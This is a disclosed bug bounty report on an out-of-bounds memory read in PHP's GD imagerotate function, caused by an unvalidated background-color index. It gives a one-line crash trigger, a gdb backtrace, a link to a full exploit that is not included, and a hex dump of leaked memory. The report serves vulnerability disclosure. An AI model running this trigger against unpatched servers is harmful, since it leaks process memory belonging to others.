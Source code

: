 # Arbitary Memory Read via gdImageRotateInterpolated Array Index Out of Bounds

## Report Details
- **Report ID**: 110720
- **URL**: https://hackerone.com/reports/110720
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-01-14T17:19:24.870Z
- **Disclosed**: 2019-11-12T09:38:12.885Z

## Reporter
- **Username**: libnex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
1)Bug report at: https://bugs.php.net/bug.php?id=70976&edit=2
2) Patch submitted: https://www.dropbox.com/s/rr5xti66cpt17mn/gd_interpolation.patch?dl=0
3) Issue has been fixed in PHP 5.5.31, 5.6.17, 7.0.2


---Vuln Description--
This is the function prototype for ImageRotate:

resource imagerotate ( resource $image , float $angle , int $bgd_color [, int $ignore_transparent = 0 ] )


$bgd_color specifies the background color of an image have it has been rotated. This is passed in as an integer that represents an index to the color palette.

There is a lack of validation of $bgd_color. One can pass in a large number that exceeds the color palette array. This reads memory beyond the color palette. Information of the memory leak can then be obtained via the background color after the image has been rotated.

Test script:
---------------
./configure --with-gd


1) Pass in a large $bgd_color:

php -r "imagerotate(imagecreate(1,1),45,0x7ffffff9);"


2) This causes it to crash at gd_interpolation.c:2174  :


Stopped reason: SIGSEGV
0x00000000005fb0b4 in gdImageRotateInterpolated (src=0x7ffff7fb5b38, angle=45, bgcolor=0x7ffffff9) at php-5.6.15/ext/gd/libgd/gd_interpolation.c:2174
2174                            bgcolor =  gdTrueColorAlpha(src->red[bgcolor], src->green[bgcolor], src->blue[bgcolor], src->alpha[bgcolor]);



gdb-peda$ bt
#0  0x00000000005fb0b4 in gdImageRotateInterpolated (src=0x7ffff7fb5b38, angle=45, bgcolor=0x7ffffff9) at /home/elaw/php-5.6.15/ext/gd/libgd/gd_interpolation.c:2174
#1  0x00000000005d0b73 in zif_imagerotate (ht=0x3, return_value=0x7ffff7fb5810, return_value_ptr=0x7ffff7f80090, this_ptr=0x0, return_value_used=0x0)
 at /home/elaw/php-5.6.15/ext/gd/gd.c:2111
#2  0x0000000000850915 in zend_do_fcall_common_helper_SPEC (execute_data=0x7ffff7f800c8) at /home/elaw/php-5.6.15/Zend/zend_vm_execute.h:558
#3  0x000000000085856c in ZEND_DO_FCALL_SPEC_CONST_HANDLER (execute_data=0x7ffff7f800c8) at /home/elaw/php-5.6.15/Zend/zend_vm_execute.h:2602
#4  0x000000000084ee1a in execute_ex (execute_data=0x7ffff7f800c8) at /home/elaw/php-5.6.15/Zend/zend_vm_execute.h:363
#5  0x000000000084f806 in zend_execute (op_array=0x7ffff7fb42f8) at /home/elaw/php-5.6.15/Zend/zend_vm_execute.h:388
#6  0x00000000007f6636 in zend_eval_stringl (str=0x106ff80 "imagerotate(imagecreate(1,1),45,2147483641);", str_len=0x2c, retval_ptr=0x0,
 string_name=0xd46ac4 "Command line code") at /home/elaw/php-5.6.15/Zend/zend_execute_API.c:1077
#7  0x00000000007f68bc in zend_eval_stringl_ex (str=0x106ff80 "imagerotate(imagecreate(1,1),45,2147483641);", str_len=0x2c, retval_ptr=0x0,
 string_name=0xd46ac4 "Command line code", handle_exceptions=0x1) at /home/elaw/php-5.6.15/Zend/zend_execute_API.c:1124
#8  0x00000000007f6940 in zend_eval_string_ex (str=0x106ff80 "imagerotate(imagecreate(1,1),45,2147483641);", retval_ptr=0x0, string_name=0xd46ac4 "Command line code",
 handle_exceptions=0x1) at /home/elaw/php-5.6.15/Zend/zend_execute_API.c:1135
#9  0x000000000092ce99 in do_cli (argc=0x3, argv=0x106ff00) at /home/elaw/php-5.6.15/sapi/cli/php_cli.c:1034
#10 0x000000000092ddc5 in main (argc=0x3, argv=0x106ff00) at /home/elaw/php-5.6.15/sapi/cli/php_cli.c:1378
#11 0x00007ffff6027b45 in __libc_start_main (main=0x92d722 <main>, argc=0x3, argv=0x7fffffffe338, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>,
 stack_end=0x7fffffffe328) at libc-start.c:287
#12 0x0000000000421409 in _start ()


3) One can see that the color platte only has 256 entries:

gdb-peda$ ptype src
type = struct gdImageStruct {
......
    int red[256];
    int green[256];
    int blue[256];
....


4) Thus we are encountering an array index out of bounds.



5) I've created a full exploit that reads large contiguous chunk of memory. The POC can be obtained from https://www.dropbox.com/s/bwuivbug62ki4cs/gdImageRotateInterpolated_Array_Index_OOB_MEM_Read.php?dl=0


./php gdImageRotateInterpolated_Array_Index_OOB_MEM_Read.php


0c40  01 00 00 00 01 00 00 00  01 00 00 00 01 00 00 00   ........ ........
0c50  01 00 00 00 01 00 00 00  01 00 00 00 01 00 00 9d   ........ .......�
0c60  01 00 00 9d 01 00 00 fd  01 00 00 00 01 00 00 00   ...�...� ........
0c70  01 00 00 ef 01 00 00 00  01 00 00 2f 01 00 00 00   ...�.... .../....
0c80  01 00 00 20 01 00 00 ff  01 00 00 c8 01 00 00 ff   ... ...� ...�...�
0c90  01 00 00 20 01 00 00 ff  01 00 00 c8 01 00 00 ff   ... ...� ...�...�
0ca0  01 00 00 70 01 00 00 ff  01 00 00 60 01 00 00 ff   ...p...� ...`...�
0cb0  01 00 00 08 01 00 00 ff  01 00 00 b0 01 00 00 ff   .......� ...�...�
0cc0  01 00 00 58 01 00 00 ff  01 00 00 88 01 00 00 ff   ...X...� ...�...�
0cd0  01 00 00 30 01 00 00 ff  01 00 00 d8 01 00 00 ff   ...0...� ...�...�
0ce0  01 00 00 80 01 00 00 ff  01 00 00 28 01 00 00 ff   ...�...� ...(...�
0cf0  01 00 00 d0 01 00 00 ff  01 00 00 58 01 00 00 ff   ...�...� ...X...�
0d00  01 00 00 00 01 00 00 ff  01 00 00 a8 01 00 00 ff   .......� ...�...�
0d10  01 00 00 50 01 00 00 ff  01 00 00 f8 01 00 00 ff   ...P...� ...�...�
0d20  01 00 00 a0 01 00 00 ff  01 00 00 d8 01 00 00 ff   ...�...� ...�...�
0d30  01 00 00 80 01 00 00 ff  01 00 00 28 01 00 00 ff   ...�...� ...(...�
0d40  01 00 00 d0 01 00 00 ff  01 00 00 78 01 00 00 ff   ...�...� ...x...�
0d50  01 00 00 20 01 00 00 ff  01 00 00 f0 01 00 00 ff   ... ...� ...�...�
0d60  01 00 00 98 01 00 00 ff  01 00 00 40 01 00 00 ff   ...�...� ...@...�
.....


## Attachments
No attachments
